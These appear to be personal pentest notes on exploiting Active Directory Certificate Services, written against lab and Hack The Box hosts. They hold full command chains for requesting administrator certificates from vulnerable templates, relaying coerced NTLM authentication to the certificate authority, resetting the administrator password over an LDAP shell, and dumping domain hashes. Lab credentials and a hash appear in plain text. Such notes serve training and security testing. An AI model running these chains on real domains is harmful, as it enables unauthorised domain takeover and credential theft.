 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>

<details>

<summary>Exploitation (NTLM Relay to ADCS HTTP Endpoints)</summary>

```bash
# Finding ESC8 Vulnerability (Web Enrollment over HTTP)
certipy-ad find -u 'adam@corp.com' -p lab -dc-ip 192.168.167.60 -enabled
cat 20250705224614_Certipy.txt
```

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption><p>DomainController certificate template is a default template in ADCS and allows both Client and Server Authentication</p></figcaption></figure>

```bash
# Coerce DC (.60) to authenticate with us (.245) via NTLM, (.61) is CA --> relay authentication for certificate request:
impacket-ntlmrelayx -t http://192.168.167.61/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

coercer coerce --target-ip 192.168.167.60 --l 192.168.45.245 -u adam -p lab --filter-method-name EfsRpcAddUsersToFile
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption><p>Obtained a certificate based on the DomainController certificate template in a pfx format.</p></figcaption></figure>

```bash
# Authenticate to DC as DC machine account with Certipy
certipy-ad auth -pfx DC08$.pfx -dc-ip 192.168.167.60
```

<figure><img src=".gitbook/assets/image (370).png" alt=""><figcaption><p>Got DC machine account and hash</p></figcaption></figure>

```bash
impacket-secretsdump corp.com/'dc08$'@192.168.167.60 -hashes :0e0b464f36ca316cbd3170dad42bea33
```

<figure><img src=".gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

</details>
